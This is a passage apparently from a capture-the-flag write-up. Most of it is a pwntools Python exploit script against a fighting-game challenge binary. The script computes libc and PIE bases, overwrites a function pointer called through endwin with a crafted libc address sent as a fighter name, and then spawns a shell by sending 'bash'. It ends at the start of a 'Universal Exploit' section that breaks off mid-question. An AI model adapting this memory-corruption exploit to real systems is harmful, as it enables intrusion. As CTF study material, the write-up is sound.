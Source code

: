 ```python

r.interactive() # press 2, ^C
context.log_level = 'debug'
first = True
while True:
    print('gogo', i)
    if not first:
        r.sendlineafter('>', '7')
        r.sendlineafter('>', '3')
        r.sendlineafter('Slot:', '0')
        r.sendlineafter('>', '2') # fight
        r.sendlineafter('>', '1')
    else:
        r.sendline('1')
        first = False

    if play_game('rrrrrrprrrrrrp'*30, x=True, verbose=True):
        r.sendline('')
        r.sendlineafter('Which notch on your belt will this victory go?', '128') # 0x7f39f0bbefa0 <endwin+32>    call   qword ptr [rax + 0x440] <0xa464544434241>
        # r.sendlineafter('Which notch on your belt will this victory go?', '357914070') # 0x7f39f0bbefa0 <endwin+32>    call   qword ptr [rax + 0x440] <0xa464544434241>
        r.sendlineafter('What Name Shall you Remember this fighter by?', p64(libc_base + 0x0000000000194feb + 8))

        break

# gdb.attach(r, 'handle SIG32 nostop noprint')
print(f'x/20gx *{hex(pie_base + 0x473F60)}')
print(f'b *{hex(pie_base + 0x14e02)}')
print(f'b *{hex(pie_base + 0x14e98)}')
print(f'b *{hex(pie_base + 0x170e1)}')

r.sendlineafter('>', '2')
r.sendlineafter('>', '1')
for i in range(20):
    r.sendline('bash')
r.interactive()
```

![](https://user-images.githubusercontent.com/8079733/103381278-ab553900-4b2e-11eb-99a5-b0b9b819eab0.png)

[*Exploit Video*](https://youtu.be/5770W0e_jOI)

# Strategy B - Universal Exploit

The offset between the `endwin` function pointer and the first of slots are different between the root user and a standard (`ctf`) user.  

**Why?**
